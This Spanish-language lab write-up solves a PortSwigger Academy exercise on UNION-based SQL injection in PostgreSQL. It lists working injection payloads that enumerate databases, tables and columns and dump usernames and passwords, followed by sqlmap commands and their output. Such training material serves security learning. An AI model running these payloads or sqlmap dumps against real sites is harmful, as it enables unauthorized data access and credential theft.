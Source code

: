 ```yaml
---
title: ""
date: 2024-11-15 12:35:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, listing the database contents on non-Oracle databases
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categorías` de `productos`. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que debemos usar un `ataque UNION` para `recuperar datos` de otras tablas. La `aplicación` tiene una `función` de `inicio de sesión`, y la `base` de `datos` contiene una `tabla` que almacena nombres de `usuario` y `contraseñas`. Hay que `determinar` el `nombre` de esta `tabla` y las `columnas` que contiene, y luego `recuperar` el `contenido` de la `tabla` para obtener el `nombre` de `usuario` y la `contraseña` de todos los usuarios. Para resolver el laboratorio, hay que `iniciar sesión` como el usuario `administrador`

---

## Resolución

Al acceder a la `web` nos sale esto

![](/assets/img/SQLI-Lab-5/image_1.png)

Pinchamos en alguna de las `categorías`, capturamos la `petición` con `Burpsuite` y le añadimos una `'` a `category`

![](/assets/img/SQLI-Lab-5/image_2.png)

Si enviamos la `petición` nos dará un `Internal Server Error` debido a que hemos logrado interferir con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-5/image_3.png)

Si usamos este `payload`, ya habremos solucionado el error que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Lifestyle'or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-5/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Lifestyle'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es ignorar el resto de la `query`

```
SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1 -- - '
```

Usando `order by` podemos `identificar` cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no obtendremos `ningún error`

```
/filter?category=Lifestyle'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-5/image_5.png)

Sin embargo, si ponemos un `número` de `columnas` que no `existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Lifestyle'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-5/image_6.png)

A continuación, usamos `union select` para señalar ambos campos, podemos descartar que la `base` de `datos` sea `Oracle` porque no nos da un error, si nos diera un error probablemente sería una base de datos `Oracle` y debería añadirle `from dual` al final

```
/filter?category=Lifestyle'+union+select+null,null--+-+
```

Con este `payload` lo que hacemos es `listar` la `versión` de la `base` de `datos`, es importante inspeccionar la web correctamente, en este caso el resultado de la `SQLI` está en la parte inferior de la web

```
/filter?category=Lifestyle'+union+select+version(),null--+-+
```

![](/assets/img/SQLI-Lab-5/image_7.png)

`Listamos` las `bases` de `datos`, la expresión `string_agg(columnName, ',')` es como group_concat de `MySQL`

```
/filter?category=Lifestyle'+union+select+null,string_agg(datname, ',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-5/image_8.png)

`Listamos` la `base` de `datos` actual

```
/filter?category=Lifestyle'+union+select+current_database(),null--+-+
```

![](/assets/img/SQLI-Lab-5/image_9.png)

`Listamos` los `esquemas` de la `base` de `datos` actual

```
/filter?category=Lifestyle'+union+select+null,string_agg(schema_name,',')+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-5/image_10.png)

Para `listar` las `tablas` del esquema `public`

```
/filter?category=Lifestyle'+union+select+null,string_agg(table_name,',')+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-5/image_11.png)

Si queremos visualizarlo de mejor forma podemos usar

```
/filter?category=Lifestyle'+union+select+null,array_to_string(array_agg(table_name), E'\n')+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-5/image_12.png)

`Enumeramos` las `columnas` de la tabla `users_nlnyoc`

```
/filter?category=Lifestyle'+union+select+null,array_to_string(array_agg(column_name),E'\n')+from+information_schema.columns+where+table_name='users_nlnyoc'--+-+
```

![](/assets/img/SQLI-Lab-5/image_13.png)

`Obtenemos` el `contenido` de la columna `username_vxtjej` y `password_siipou` de la tabla `users_nlnyoc`

```
/filter?category=Lifestyle%27+union+select+username_vxtjej,password_siipou+from+users_nlnyoc--+-+
```

![](/assets/img/SQLI-Lab-5/image_14.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public --tables --batch --threads 2 
Database: public
[2 tables]
+--------------+
| products     |
| users_jsqujl |
+--------------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users_jsqujl --columns --batch --threads 2  
Database: public
Table: users_jsqujl
[3 columns]
+-----------------+---------+
| Column          | Type    |
+-----------------+---------+
| email           | varchar |
| password_vvhgak | varchar |
| username_gwyaka | varchar |
+-----------------+---------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users_jsqujl -C password_vvhgak,username_gwyaka --dump --batch --threads 2 
Database: public
Table: users_jsqujl
[3 entries]
+----------------------+-----------------+
| password_vvhgak      | username_gwyaka |
+----------------------+-----------------+
| 77mz52vp06wko24p8cl3 | administrator   |
| aqcaasm9mubsp9ngy3m7 | wiener          |
| 1smn2n4jv1mv1uzv5hqm | carlos          |
+----------------------+-----------------+
```

Nos `logueamos` como el usuario `administrador`

![](/assets/img/SQLI-Lab-5/image_15.png)
